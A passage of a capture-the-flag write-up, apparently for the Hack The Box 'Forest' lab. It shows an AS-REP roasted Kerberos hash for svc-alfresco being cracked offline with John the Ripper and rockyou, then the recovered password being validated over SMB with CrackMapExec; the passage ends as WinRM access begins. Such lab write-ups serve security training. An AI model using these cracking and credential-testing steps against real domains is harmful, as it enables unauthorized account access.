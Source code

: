 Nice, we have a hash for the **svc-alfresco** user. Now, we'll try to crack it and see if we can get some kind of access to the remote computer.

## Password Cracking

You just have to copy/paste the following hash in a file and try to crack it offline using the *rockyou* (or any other list) passwords list (if you are using Kali Linux, it should be present in the `/usr/share/wordlists/` folder). 

```text
$krb5asrep$23$svc-alfresco@HTB.LOCAL:617958fe87802133461a4ead4b697b5d$d999599f5812fc7e7b80db85e55cff57cd6a2091b84f97300d97d9faf09cc184c0a7e51cdd0b11bd21ac4423876c97bcf4f5b934f85cde4af8e2fc81d33988297de7ee195d1c6582b9ff202497f9e580ea709d524de279fad1b81f318fe473acf5e505db0c550d026d64b4bfe011eccc0d6d19f2dd894608a0db3ddb4941d71fccb9043da894a7ab579b3f5fc7b6972daa0d25e732c192281fd2fc2987f0f9059d7f777e76ecbff880e4ecc1044b190f829f1b3a90e0a85dee92008da27dcda65d77df67990cfc81b1ae3fda2f8722ba3aa7f6291ad2cd49db59f47bb6bdd7ab690833c9666a
```

Here, we used [John the Ripper](https://github.com/openwall/john) to crack the password, but it can be done with other tools.

```bash
$ john hash.txt -w=/usr/share/wordlists/rockyou.txt 

Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)     
1g 0:00:00:06 DONE (2022-02-04 13:50) 0.1600g/s 653721p/s 653721c/s 653721C/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Great, we now have credentials for **svc-alfresco** (`svc-alfresco:s3rvice`). Note that if you do have **hashcat** installed, you can also try the following command: `hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt`. 

Using another awesome tool, [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), we can check if the user's password is valid.

```bash
$ crackmapexec smb 10.129.95.210 -u svc-alfresco -p s3rvice -d htb.local
SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\svc-alfresco:s3rvice 
```

Awesome, we have credentials for the **svc-alfresco** domain account (`svc-alfresco:s3rvice`).

## WinRM Access

Now, instead of using the SMB (TCP/445) protocol with `crackmapexec`, let's try to use WinRM (TCP/5985) and see if we have a remote access.
